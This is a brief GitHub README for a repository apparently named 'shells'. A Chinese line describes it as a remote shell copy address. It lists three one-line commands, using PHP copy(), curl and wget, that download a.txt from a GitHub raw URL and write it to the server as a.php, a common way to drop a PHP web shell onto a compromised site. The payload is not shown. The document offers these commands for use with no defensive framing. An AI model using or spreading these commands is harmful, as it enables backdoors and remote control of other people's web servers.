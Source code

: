# shells
> 用于作为远程shell copy地址
* php
copy("https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt",a.php);
* curl
curl https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -o a.php
* wget
wget https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -O a.php

